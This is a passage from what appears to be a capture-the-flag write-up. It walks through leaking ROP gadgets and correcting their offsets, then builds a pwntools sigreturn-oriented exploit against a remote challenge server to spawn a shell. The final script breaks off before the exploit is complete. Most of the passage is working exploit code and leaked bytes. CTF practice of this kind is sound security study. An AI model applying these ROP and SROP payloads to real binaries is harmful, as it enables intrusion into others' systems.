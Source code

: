 ```
print(target.recvuntil(b'Would you like another push (Y/*) >>> '))

padding = b'a' * 16 

pop_rdi = pop_rax - 0x1c4 + 923
pop_rsi_r15 = pop_rax - 0x1c4 + 921
print_gadget = pop_rax - 0x1c4 + 37

payload = padding + p64(pop_rdi) + p64(pop_rax) + p64(print_gadget)

target.sendline(payload)

print(target.recvline())
target.interactive()
```
The snippet of shellcode it leaks out is
```
b'XXX\xc3\x90]\xc3UH\x89\xe5\xff4%\x05\x0f\x05\x0f\xc3\x90]\xc3UH\x89\xe5\xff4%\x05\x0fXX\xc3\x90]\xc3UH\x89\xe5\xff4%XX\x05\x0f\xc3\x90]\xc3UH\x89\xe5H\x83\xec\x10H\x8d\x05Y\x0e\n'
```
Here, we can see that pop rax ; ret and syscall gadgets definitely seem to be present in the binary, we just seem to have calculated their offsets somewhat incorrectly. Adding two to the existing supposed pop rax address should give us the actual gadget:
```
payload = padding + p64(pop_rdi) + p64(pop_rax+2) + p64(print_gadget)
```
```
b'X\xc3\x90]\xc3UH\x89\xe5\xff4%\x05\x0f\x05\x0f\xc3\x90]\xc3UH\x89\xe5\xff4%\x05\x0fXX\xc3\x90]\xc3UH\x89\xe5\xff4%XX\x05\x0f\xc3\x90]\xc3UH\x89\xe5H\x83\xec\x10H\x8d\x05Y\x0e\n'
```
And if we try similar with the supposed syscall gadget, we see a similar result; two needs to be added to get the actual gadget:
```
payload = padding + p64(pop_rdi) + p64(syscall) + p64(print_gadget)
```
```
b'%\x05\x0f\x05\x0f\xc3\x90]\xc3UH\x89\xe5\xff4%\x05\x0fXX\xc3\x90]\xc3UH\x89\xe5\xff4%XX\x05\x0f\xc3\x90]\xc3UH\x89\xe5H\x83\xec\x10H\x8d\x05Y\x0e\n'
```

At this point, all I have to do is very slightly adjust my SIGROP attempt from earlier, and I can pop a shell!
```
from pwn import *

target = remote('0.cloud.chals.io', 21978)

context.arch = "amd64"

frame = SigreturnFrame()

print(target.recvuntil(b'Push your way to /bin/sh at :'))

leak = (target.recvline())
print(leak)
binsh = int(leak, 16)
print('binsh is at', hex(binsh))

payload = b'Y'
target.send(payload)
print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x58585858; ret |'))
```